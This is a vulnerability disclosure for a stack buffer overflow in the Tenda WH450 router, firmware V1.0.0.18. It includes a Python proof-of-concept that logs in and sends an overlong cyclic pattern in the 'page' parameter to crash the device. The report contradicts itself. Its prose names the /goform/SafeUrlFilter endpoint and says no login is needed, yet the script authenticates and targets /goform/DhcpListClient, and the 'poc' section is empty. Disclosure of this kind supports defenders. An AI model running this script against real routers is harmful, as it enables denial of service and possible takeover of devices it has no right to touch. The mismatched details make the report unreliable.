



# Bug Report: Buffer Overflow in Tenda WH450 V1.0.0.18 Router
A buffer overflow vulnerability has been discovered in the Tenda WH450 Router firmware version V1.0.0.18. The vulnerability exists in the `/goform/SafeUrlFilter` HTTP request handler and can be exploited remotely by unauthenticated attackers to achieve arbitrary code execution or cause denial of service conditions.

## Vulnerability Details

### Product Information
- **Product**: Tenda WH450
- **Affected Version**: V1.0.0.18
- **Vulnerability Type**: Stack-based Buffer Overflow

## Description:
A buffer overflow vulnerability exists in the HTTP request handler for the `/goform/SafeUrlFilter` endpoint. The vulnerability is triggered when processing requests containing the following parameters with excessive data lengths: `page`.

## poc



## Reproduce
```python
#!/usr/bin/env python3
from pwn import *
import requests

BASE_URL = "http://10.10.10.1"

def login(sess):
    login_url = BASE_URL + "/login/Auth"
    data = {
        "username": "",
        "password": "",
    }

    print("[*] logging in...")
    r = sess.post(login_url, data=data, allow_redirects=True)
    print(f"[*] final url: {r.url}")
    print(f"[*] status: {r.status_code}")

    print(f"[*] cookies after login: {sess.cookies.get_dict()}")


def send_payload(sess, payload):
    url = BASE_URL + "/goform/DhcpListClient"
    print("[*] sending payload...")
    r = sess.get(url, params={"page": payload})
    print(f"Response status code: {r.status_code}")
    print(f"Response body:\n{r.text[:500]}") 

if __name__ == "__main__":
    sess = requests.Session()

    login(sess)

    payload = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9"

    send_payload(sess, payload)

```